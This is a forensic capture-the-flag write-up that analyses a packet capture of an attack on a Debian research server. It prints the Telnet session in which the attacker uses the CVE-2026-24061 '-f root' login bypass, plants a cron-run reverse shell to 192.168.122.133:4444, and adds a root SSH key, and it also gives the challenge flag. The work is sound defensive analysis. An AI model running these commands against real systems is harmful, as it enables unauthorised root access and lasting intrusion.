









# Exfiltration Kantik [1/3]

**Competition:** 404CTF 2026 <br>
**Category:** Forensic



---

## Solution

### Reconnaissance

The provided file is a network capture (`network_capture.pcap`).

The first step is to enumerate all IP pairs present in the capture.
We import the file into Wireshark and use:

**Statistics → Conversations**



From the **IPv4** tab we can see three hosts: `.1` (gateway), `.133` and `.177`.

The dominant conversation is `.133 ↔ .177` with 131,635 packets and 8 MB of traffic, clearly the main attack session. We also notice that `.133` initiates the exchange (Packets A→B = 65,803), which identifies it as the attacker.



From the **UDP** tab only DNS queries from the victim `.177` to the gateway `.1` on port 53 appear. No anomalous traffic whatsoever. The entire attack runs over TCP.

At this point we have already clearly identified the two endpoints involved:

- **Attacker IP:** `192.168.122.133`
- **Victim IP:** `192.168.122.177`



The **TCP** tab gives us the full picture of the attack. The screenshot shows only a partial view, in reality the attacker scanned all ports from 1 to 65535 with nmap (visible as thousands of 2 packet conversations on port 58292, the classic SYN scan pattern). The ports of interest are:

- **Port 22**: `.133 → .177`, nmap detects SSH is open, followed by access attempts
- **Port 23**: multiple connections `.133 → .177`, the Telnet exploit phase, where the attacker obtains a root shell
- **Port 80**: `.133 → .177`, web scan


### Apache Version and IP Roles

In Wireshark, filtering with `http.server contains "Apache"`



We get 9 packets, all HTTP responses from the victim `.177` to the attacker `.133`. Clicking on the first one and expanding `Hypertext Transfer Protocol` in the bottom-left panel, we immediately find the version in the `Server:` field:

- **Apache version:** `2.4.66`
- **Victim IP:** `192.168.122.177`

We filter with `telnet` and follow the stream with **Follow → TCP Stream**.



The session output immediately reveals the machine's hostname:

```
Linux 6.1.0-44-amd64 (ch4ton) (pts/0)
```
**Victim hostname:** `ch4ton`

Filtering with `http.request.uri contains "nmap"`:



We get 2 packets: the request and the 404 response. Expanding
`Hypertext Transfer Protocol` in the bottom-left panel we can see:

- The User-Agent immediately gives the tool away: **nmap**.
- The `Host` field confirms the victim hostname, always reported as `ch4ton`.

### Identifying the Initial Access Vector

Analysing the traffic generated by the attacker towards the victim, a direct connection to **port 23 (Telnet)** clearly stands out. We go back to the attack stream and observe the full session to reconstruct exactly what happened:

```
..%..&..&........... ..!.."..'...
..%..&..... ..#..'..$..%..%.........&..&...........!..".."........
..%..&.....#..$
.. .....'.........
..%...........*....".....b........b....	B.
........
........................"...... .38400,38400....'..USER.-f root......XTERM-256COLOR..
...
...
........!......"
........"
..".............	..
........
.............
Linux 6.1.0-44-amd64 (ch4ton) (pts/0)


uname -a

uname -a
Linux ch4ton 6.1.0-44-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.164-1 (2026-03-09) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Apr 30 06:50:04 EDT 2026 on tty1

whoami

whoami

id

id
.[?2004hroot@ch4ton:~# uname -a
.[?2004l
.
cat /etc/passwd | grep /home

cat /etc/passwd | grep /home
Linux ch4ton 6.1.0-44-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.164-1 (2026-03-09) x86_64 GNU/Linux

w

.[?2004hroot@ch4ton:~# whoami
.[?2004l
.
echo '#!/bin/bash' > /opt/.system_update

w
echo '#!/bin/bash' > /opt/.system_update
root
.[?2004hroot@ch4ton:~# id
.[?2004l
.uid=0(root) gid=0(root) groups=0(root)
.[?2004hroot@ch4ton:~# cat /etc/passwd | grep /home
.[?2004l
.labo:x:1000:1000:labo,,,:/home/labo:/bin/bash
rcap:x:1001:1001:Cap Ricorne - Directeur:/home/rcap:/bin/bash
dmegame:x:1002:1002:Megame Diocre - Chercheur:/home/dmegame:/bin/bash
ppoguri:x:1003:1003:Poguri Poste - PhD Student:/home/ppoguri:/bin/bash
ningeais:x:1004:1004:Ingeais Nier - Sysadmin:/home/ningeais:/bin/bash
tkant:x:1005:1005:Kant Tique - Post-doc:/home/tkant:/bin/bash
.[?2004hroot@ch4ton:~# w
.[?2004l
. 06:51:54 up 13 min,  2 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                06:50    1:36   0.13s  0.01s -bash
root     pts/0    ch4t             06:51    0.00s  0.03s  0.01s w
.[?2004hroot@ch4ton:~# echo '#!/bin/bash' > /opt/.system_update
.[?2004l
..[?2004hroot@ch4ton:~#
echo 'bash -i >& /dev/tcp/192.168.122.133/4444 0>&1' >> /opt/.system_update

echo 'bash -i >& /dev/tcp/192.168.122.133/4444 0>&1' >> /opt/.system_update
.[?2004l
.
chmod +x /opt/.system_update
(crontab -l 2>/dev/null; echo '*/5 * * * * /opt/.system_update') | crontab -
crontab -l
mkdir -p /root/.ssh
echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCl8fmPvF2R3R8MEYo3Hw3Jh1U4PFCXNtVhyMRDwtIDpzAqeSNpo4KLry8EjxSOOCiCCxn2ndJ0lTmbVP93R1zVnJjntw5ND3LROlmzXri+7pAbMTuLdTrArvR5ib3WJj/5SSGoGLDI8tuInMv9tPCN0aWw0uu9GoQ15cGZMq1/lEOc95M/9ixpDFCtxOTmrvn0Nivey76IeweR0+jBpxsooROIt1/hQ/XJ29m47xXd+8pkVCmx9XekDm7HoZzfmQZvefReMk5fn/qeOUQ8p+7IYqDyKuEbVPwrCVcf3D3Qc3qFDtyauDaJcFGe3EWXiVRFudpGuzgJJMYe618/cw1X root@ch4t' >> /root/.ssh/authorized_keys
chmod 700 /root/.ssh

.[?2004hroot@ch4ton:~#
chmod 600 /root/.ssh/authorized_keys

chmod +x /opt/.system_update
.[?2004l
.chmod 600 /root/.ssh/authorized_keys
.[?2004hroot@ch4ton:~# (crontab -l 2>/dev/null; echo '*/5 * * * * /opt/.system_update') | crontab -
.[?2004l
..[?2004hroot@ch4ton:~# crontab -l
.[?2004l
.0 2 * * * /usr/bin/backup_research_data.sh
*/30 * * * * /usr/bin/sync_experimental_data.sh
*/5 * * * * /opt/.system_update
.[?2004hroot@ch4ton:~# mkdir -p /root/.ssh
.[?2004l
..[?2004hroot@ch4ton:~# echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCl8fmPvF2R3R8MEYo3Hw3Jh1U4PFCXNtVhyMRDwtIDpzAqeSNpo4KLry8EjxSOOCiCCxn2ndJ0lTmbVP93R1zVnJjntw5ND3LROlmzXri+7pAbMTuLdTrArvR5ib3WJj/5SSGoGLDI8tuInMv9tPCN0aWw0uu9GoQ15cGZMq1/lEOc95M/9ixpDFCtxOTmrvn0Nivey76IeweR0+jBpxsooROIt1/hQ/XJ29m47xXd+8pkVCmx9XekDm7HoZzfmQZvefReMk5fn/qeOUQ8p+7IYqDyKuEbVPwrCVcf3D3Qc3qFDtyauDaJcFGe3EWXiVRFudpGuzgJJMYe618/cw1X root@ch4t' >> /root/.ssh/authorized_keys
.[?2004l
..[?2004hroot@ch4ton:~# chmod 700 /root/.ssh
.[?2004l
..[?2004hroot@ch4ton:~# chmod 600 /root/.ssh/authorized_keys
.[?2004l
..[?2004hroot@ch4ton:~#
exit

exit
.[?2004l
.logout
```

The attacker set the `USER` variable to `-f root`. The GNU Inetutils telnetd daemon does not sanitise this variable before passing it to `/bin/login`, which interprets `-f` as "force login without authentication". The result is that the server responds immediately with a root shell, without ever asking for a password:

```
Linux 6.1.0-44-amd64 (ch4ton) (pts/0)
Last login: Thu Apr 30 06:50:04 EDT 2026 on tty1
```
We are already in as root. This is exactly the mechanism described in **CVE-2026-24061** (CVSS 9.8 Critical):
> https://www.cve.org/CVERecord?id=CVE-2026-24061

Among the references we also find the fix commit on Codeberg, which shows how the developers resolved the issue.

> https://codeberg.org/inetutils/inetutils/commit/fd702c02497b2f398e739e3119bed0b23dd7aa7b



The fix introduces a check that discards any value of the `USER` variable that starts with `-` or contains shell metacharacters; in those cases the value is ignored and replaced with an empty string.

The attacker, now root, runs a quick reconnaissance:

```
whoami   → root
id       → uid=0(root) gid=0(root) groups=0(root)
uname -a → Linux ch4ton 6.1.0-44-amd64 #1 SMP PREEMPT_DYNAMIC Debian
           6.1.164-1 (2026-03-09) x86_64
```

With `cat /etc/passwd | grep /home` they enumerate the system users, six researcher accounts: `labo`, `rcap` (Directeur), `dmegame` (Chercheur), `ppoguri` (PhD Student), `ningeais` (Sysadmin), `tkant` (Post-doc).

With `w` they check active sessions and confirm they are the only one connected remotely (`pts/0`).

At this point the attacker sets up persistence. First, the reverse shell:

```bash
echo '#!/bin/bash' > /opt/.system_update
echo 'bash -i >& /dev/tcp/192.168.122.133/4444 0>&1' >> /opt/.system_update
chmod +x /opt/.system_update
(crontab -l 2>/dev/null; echo '*/5 * * * * /opt/.system_update') | crontab -
```
The script `/opt/.system_update` opens a **reverse bash shell** to the host `192.168.122.133` on **port 4444**. By adding it to the crontab with the rule `*/5 * * * *`, the attacker ensures it runs every 5 minutes, maintaining persistent access even if the Telnet session is closed.

The `crontab -l` command confirms the change. Alongside the pre-existing legitimate jobs, the new malicious entry now appears:

```
0 2 * * *    /usr/bin/backup_research_data.sh
*/30 * * * * /usr/bin/sync_experimental_data.sh
*/5 * * * *  /opt/.system_update        ← added by the attacker
```

Next, the attacker adds an SSH public key inside `/root/.ssh/authorized_keys` (`root@ch4t`), obtaining a permanent alternative access channel completely independent of the compromised Telnet service.

Finally, the session closes with a simple `exit`, but the game is already over and that persistence point is fully operational. Shortly after, the compromised server sends a POST request to `192.168.122.133:8080/upload`, exfiltrating encrypted data to the attacker's host.



---

## Flag

```
404CTF{192.168.122.133_192.168.122.177_2.4.66_CVE-2026-24061_4444}
```